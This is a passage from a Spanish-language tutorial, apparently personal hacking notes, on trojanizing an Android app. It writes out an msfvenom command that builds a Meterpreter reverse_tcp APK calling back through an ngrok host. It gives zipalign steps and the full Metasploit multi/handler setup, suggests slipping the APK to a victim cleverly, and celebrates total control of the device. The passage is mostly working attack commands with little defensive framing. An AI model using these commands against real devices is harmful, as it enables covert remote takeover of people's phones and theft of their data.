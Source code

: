 ```msfvenom -p android/meterpreter/reverse_tcp LHOST=0.tcp.ngrok.io LPORT=17547 -o reverse.apk```
![jarsigner](/images/apuntes/HackingAndroid/Firmada.png)

* También tenemos que instalar la utilidad **"zipalign"** => ```sudo apt install zipalign -y``` (Esta aplicación lo que hace básicamente es alinear los bytes de la app para que esta consuma menos RAM y vaya más rápida), obviamente es mucho más complejo que esto, pero a muy alto nivel hace eso.
  * ```zipalign 4 "nombre APK maliciosa" "nombre que queremos ya todo terminado"```
    * 4 => Le indicamos con la cantidad de bytes que queremos que "se alinee".
    * **¡IMPORTANTE!** => Cuidado con el orden, podemos carganos la APK. Aconsejo hacer una copia antes de realizar este comando.

![zipalign](/images/apuntes/HackingAndroid/zipalign.png)

<a name="ejecucion-de-exploit-en-la-victima"></a>
## Ejecución de exploit en la víctima

Lo primero que debemos hacer es, en este ejemplo, dejar **NGROK** preparado para recibir peticiones TCP (se ve en el apartado [Crear APK maliciosa sencilla](#crear-apk-maliciosa-sencilla).  
Hecho esto debemos crear un payload con **"msfvenom"** (se ve en el apartado [Crear APK maliciosa sencilla](#crear-apk-maliciosa-sencilla)) en este caso, va a ser con una APK descargada desde **"apkmonk"** y modificándola colocándole nuestro payload.  
Ahora, debemos pasarle a la víctima nuestra APK maliciosa de la forma más ingeniosa que podamos o se nos ocurra. (Al estar en un entorno controlado en red local, simplemente me lo voy a pasar a mi dispositivo)  
Finalmente debemos dejar **Metasploit** a la escucha con el **multi-handler** por el puerto que le indicamos a **NGROK** (el local) para poder recibir la shell de **Meterpreter.**
* ```msfconsole``` ó ```msfdb run``` => Para abrir **Metasploit**
* ```use exploit/multi/handler``` => Para indicar a **Metasploit** que queremos usar el exploit multi-handler para estar a la escucha.
* ```set payload android/meterpreter/reverse_tcp``` => Le indicamos el payload que vamos a usar (el que configuramos con **msfvenom** en nuestra APK maliciosa)
* ```set LHOST 0.0.0.0``` => Tenemos que poner esta dirección IP para que quede a la escucha de todas las IPs.
* ```set LPORT 4433``` => Le indicamos el puerto que le dijimos que hiciese la redirección a **NGROK** (el local)
* ```exploit``` => Lanzamos el exploit con la configuración que le hemos dado.

![multiHandler](/images/apuntes/HackingAndroid/multiHandler.png)

Con esto ya realizado **Metasploit** quedaría a la escucha de todas las peticiones a ese puerto.
Lo único que nos queda por hacer es abrir la aplicación en nuestra víctima para recibir una shell de **Meterpreter** y tener control total del dispositivo.
>La aplicación no os dará ningún problema pero os saltará el "Play Protect" esto es normal porque la app no está en la Play Store, cualquier aplicación fuera de la store saltará este aviso.

![playProtect](/images/apuntes/HackingAndroid/playProtect.png)
![appInstalled](/images/apuntes/HackingAndroid/appInstalada.png)

**¡ENHORABUENA!**, hemos conseguido vulnerar un dispositivo Android de una manera muy sencilla.

>Para cualquier duda, ayuda, queja, sugerencia o reclamación tenéis mi contacto en la página principal.

[Subir](#top)

![exploited](/images/apuntes/HackingAndroid/exploited.png)
